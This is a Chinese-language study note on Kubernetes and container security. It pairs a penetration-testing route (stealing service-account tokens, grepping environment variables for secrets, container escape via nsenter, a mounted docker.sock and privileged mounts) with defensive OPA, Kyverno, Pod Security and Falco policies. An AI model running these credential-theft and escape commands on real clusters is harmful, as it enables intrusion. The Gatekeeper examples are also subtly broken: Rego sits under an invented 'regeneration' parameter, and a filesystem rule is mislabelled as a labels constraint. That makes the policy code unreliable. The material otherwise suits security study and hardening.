

# 云原生安全进阶

> 云原生 = 10倍攻击面 + 10倍复杂性——配置错误是最大的漏洞。

---

## Kubernetes 攻击链



## K8s 渗透测试路线

```bash
# 1. 信息收集
kubectl auth can-i --list  # 当前权限
kubectl get pods --all-namespaces  # 枚举 Pod

# 2. API Server 暴露
# 外网暴露: https://k8s.example.com:6443
# 未授权访问:
curl -k https://node-ip:6443/api/v1/pods -H "Authorization: Bearer $(cat /var/run/secrets/kubernetes.io/serviceaccount/token)"

# 3. Pod 内信息收集
# serviceaccount token
cat /var/run/secrets/kubernetes.io/serviceaccount/token
cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt

# 环境变量（泄露凭据）
env | grep -i secret
env | grep -i password
env | grep -i token

# 4. 容器逃逸
# 特权容器判断
cat /proc/1/status | grep CapEff
# CapEff: 0000003fffffffff → 全部特权

# 挂载 docker.sock
ls -la /var/run/docker.sock

# 挂载宿主机根目录
ls /host/sys/kernel/security/
```

## 容器逃逸技术

```yaml
1. 特权容器:
   mount /dev/sda1 /mnt  → 挂载宿主机磁盘
   nsenter --target 1 --mount --uts --ipc --pid /bin/bash
   
2. Docker Socket:
   如果 /var/run/docker.sock 已挂载
   docker run -it --privileged --pid=host ubuntu nsenter -t 1 -m -u -i -n sh

3. Capabilities 滥用:
   CAP_SYS_ADMIN → mount + cgroup 逃逸
   CAP_NET_ADMIN → 修改网络配置
   CAP_SYS_PTRACE → 跨进程内存读

4. /proc 逃逸:
   CVE-2022-0492 → cgroup 释放后重挂载
   CVE-2021-22555 → 堆溢出内核提权

5. eBPF 逃逸:
   CAP_BPF + CAP_PERFMON → 读取宿主机进程
```

## OPA/Gatekeeper 策略

```yaml
# 禁止特权容器
apiVersion: constraints.gatekeeper.sh/v1beta1
kind: K8sPSPPrivilegedContainer
metadata:
  name: no-privileged-containers
spec:
  match:
    kinds:
      - apiGroups: [""]
        kinds: ["Pod"]
  parameters:
    # Rego 策略
    regeneration: |
      package k8spspprivileged
      violation[{"msg": msg}] {
        c := input_containers[_]
        c.securityContext != null
        c.securityContext.privileged == true
        msg := "Privileged container not allowed"
      }
      input_containers[c] {
        c := input.review.object.spec.containers[_]
      }

# 强制只读根文件系统
apiVersion: constraints.gatekeeper.sh/v1beta1
kind: K8sRequiredLabels
spec:
  match:
    kinds: [{apiGroups: [""], kinds: ["Pod"]}]
  parameters:
    regeneration: |
      package k8srequiredlabels
      violation[{"msg": msg}] {
        container := input_containers[_]
        container.securityContext.readOnlyRootFilesystem != true
        msg := sprintf("Container %v must have readOnlyRootFilesystem set to true", [container.name])
      }
```

## Pod 安全标准

```yaml
# PSP 已弃用 → PSS (Pod Security Standards)

# 准入 Webhook 配置
apiVersion: v1
kind: Namespace
metadata:
  labels:
    pod-security.kubernetes.io/enforce: restricted
    pod-security.kubernetes.io/enforce-version: latest
  name: production

# PSS 三级:
Privileged: 没有限制
Baseline:   禁止特权容器、禁止 hostPID/hostIPC、限制 Capabilities
Restricted: 最严格、只读根文件系统、非 root、禁止所有 Capabilities(仅 NET_BIND_SERVICE)
```

## Kyverno 策略

```yaml
# Kyverno 禁止 latest 标签
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: disallow-latest-tag
spec:
  validationFailureAction: Enforce
  rules:
    - name: require-image-tag
      match:
        any:
          - resources:
              kinds: ["Pod"]
      validate:
        message: "Image tag ':latest' is not allowed"
        pattern:
          spec:
            containers:
              - image: "!*:latest"

# Kyverno 强制资源限制
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: require-resource-limits
spec:
  validationFailureAction: Enforce
  rules:
    - name: check-limits
      match:
        any:
          - resources:
              kinds: ["Pod"]
      validate:
        message: "Resources limits are required"
        pattern:
          spec:
            containers:
              - resources:
                  limits:
                    memory: "?*"
                    cpu: "?*"
```

## 运行时安全

```yaml
Falco:
  # 检测 shell 进入容器
  - rule: Terminal shell in container
    desc: Detects shell spawns in containers
    condition: spawned_process and container and shell_procs
    output: "Shell spawned in container (user=%user.name container_id=%container.id shell=%proc.name)"
    priority: WARNING
    tags: [container, shell]

  # 检测敏感文件读取
  - rule: Read sensitive file trusted after startup
    desc: reading /etc/shadow in container
    condition: open_read and container and fd.name startswith /etc/shadow
    output: "Reading /etc/shadow in container (user=%user.name cmdline=%proc.cmdline)"
    priority: CRITICAL
    tags: [container, filesystem]

# 网络策略示例
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: api-deny-egress
spec:
  podSelector:
    matchLabels:
      app: api
  policyTypes:
    - Egress
  egress:
    - to:
        - podSelector:
            matchLabels:
              app: database
      ports:
        - protocol: TCP
          port: 5432
```
